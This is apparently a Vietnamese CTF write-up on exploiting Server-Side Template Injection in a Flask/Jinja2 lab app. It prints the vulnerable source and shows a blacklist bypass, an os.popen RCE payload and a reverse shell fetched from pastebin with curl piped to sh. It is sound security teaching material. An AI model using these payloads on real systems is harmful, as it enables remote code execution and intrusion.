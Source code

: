 server_ch73.py

```
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# Author             : Podalirius

import jinja2
from flask import Flask, flash, redirect, render_template, request, session, abort

mail = """
Hello team,

A new hacker wants to join our private Bug bounty program! Mary, can you schedule an interview?

 - Name: {{ hacker_name }}
 - Surname: {{ hacker_surname }}
 - Email: {{ hacker_email }}
 - Birth date: {{ hacker_bday }}

I'm sending you the details of the application in the attached CSV file:

 - '{{ hacker_name }}{{ hacker_surname }}{{ hacker_email }}{{ hacker_bday }}.csv'

Best regards,
"""

def sendmail(address, content):
    try:
        content += "\n\n{{ signature }}"
        _signature = """---\n<b>Offsec Team</b>\noffsecteam@hackorp.com"""
        content = jinja2.Template(content).render(signature=_signature)
        print(content)
    except Exception as e:
        pass
    return None

def sanitize(value):
    blacklist = ['{{','}}','{%','%}','import','eval','builtins','class','[',']']
    #blacklist =[]
    for word in blacklist:
        if word in value:
            value = value.replace(word,'')
    if any([bool(w in value) for w in blacklist]):
        value = sanitize(value)
    return value

app = Flask(__name__, template_folder="./templates/", static_folder="./static/")
app.config['DEBUG'] = False

@app.errorhandler(404)
def page_not_found(e):
    return render_template("404.html")

@app.route("/", methods=['GET','POST'])
def register():
    global mail
    if request.method == "POST":
        #if "name" in request.form.keys() and len(request.form["name"]) != 0 and "surname" in request.form.keys() and len(request.form["surname"]) != 0 and "email" in request.form.keys() and len(request.form["email"]) != 0 and "bday" in request.form.keys() and len(request.form["bday"]) != 0 :
        if True:
            '''if len(request.form["name"]) > 20:
                return render_template("index.html", error="Field 'name' is too long.")
            if len(request.form["surname"]) >= 50:
                return render_template("index.html", error="Field 'surname' is too long.")
            if len(request.form["email"]) >= 50:
                return render_template("index.html", error="Field 'email' is too long.")
            if len(request.form["bday"]) > 10:
                return render_template("index.html", error="Field 'bday' is too long.")'''
            try:
                register_mail = jinja2.Template(mail).render(
                    hacker_name=sanitize(request.form["name"]),
                    hacker_surname=sanitize(request.form["surname"]),
                    hacker_email=sanitize(request.form["email"]),
                    hacker_bday=sanitize(request.form["bday"])
                )
            except Exception as e:
                pass
            sendmail("offsecteam@hackorp.com", register_mail)
            return render_template("index.html", success='OK')
        else:
            return render_template("index.html", error="Missing fields in the application form!")
    elif request.method == 'GET':
        return render_template("index.html")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=59073)
```

Đây là 1 form gồm có 4 field input để nhập name, surname, email và birthday. Có 1 số điểm ta cần lưu ý:

  -  Độ dài tối đa của name là 20, surname là 50, email là 50 và birthday là 10.
  -  Hàm sanitize sẽ thực hiện xóa kí tự nằm trong blacklist ra khỏi các chuỗi nhập vào.

Trong bài này templete được sử dụng là jinja2, nhưng tất cả ``{{, }}, {%, %}`` đã bị filter.

![image](https://github.com/elliSzAt/Server-Side-Template-Injection-SSTI/assets/125866921/f7b11482-01e3-4e89-80e6-9634bb0d8bfb)

Trong phần nội dung của mail sẽ được sử dụng trong phần sendmail có một tạo thành filename của file .csv mà ở đây nội dung do chúng ta nhập vào (name, surname, email, birthday) sẽ được viết liền nhau.

Do đó mình có thể lợi dụng điều này để tạo ra các cặp ``{{, }}, {%. %}`` theo ý thích.

Mình sẽ nhập vào như sau:

  -  Name={
  -  Surname={ 9*9
  -  Email=}
  -  Birthday=}

![image](https://github.com/elliSzAt/Server-Side-Template-Injection-SSTI/assets/125866921/0693c588-af4f-4d30-94b1-5f30c3b205f9)

Giờ chúng ta sẽ thấy kết quả chỗ .csv sẽ trở thành 81hi.csv, chứng tỏ chúng ta sẽ thực hiện khai thác SSTI được.

Ở challenge lần này còn bị filter thêm một số khác như ``builtins, class, import,[,]``. Nên mình sẽ lựa chọn payload mà mình thấy thích hợp nhất.

``{{ cycler.__init__.__globals__.os.popen('command').read() }}``

Nhưng do khi tiêm payload vào thì mình không nhận thấy bất cứ phản hồi nào từ phía client, do đó mình đã sử dụng reverse shell

 - Đầu tiên dùng ``ngrok tcp 1234`` để tạo tunnel từ cổng 1234.
 - Tiếp theo nc -lvnp 1234 để lắng nghe port 1234.
 - Sau đó mình lên ``Reverse shell generator`` để tạo shell dựa vào ip và port mình vừa tạo. Ở đây mình chọn ``nc #2``.
 - Nhưng do là shell vẫn hơi dài nên mình đã đưa nó lên ``pastebin`` để có thể rút ngắn được số kí tự.

Cuối cùng là dùng curl để lấy đoạn shell từ URL pastebin và |sh để thực thi shell, gửi payload lên và đợi.

![image](https://github.com/elliSzAt/Server-Side-Template-Injection-SSTI/assets/125866921/d878cf26-60d1-4603-bf9e-92fbdcabf2ef)

Sau khi đã connect thì ta thử list các file ra thì phát hiện có file 9f rất khả nghi nên mình đã truy cập vào đó. Nhưng mà do nhìu quá tìm mệt nên mình dùng lệnh ``find flag``.

![image](https://github.com/elliSzAt/Server-Side-Template-Injection-SSTI/assets/125866921/b1fe502c-3253-4946-81f9-857a6d199798)

Như vậy là mình đã hoàn thành xong lab này, hơi mệt nhưng mà mỏi !!!
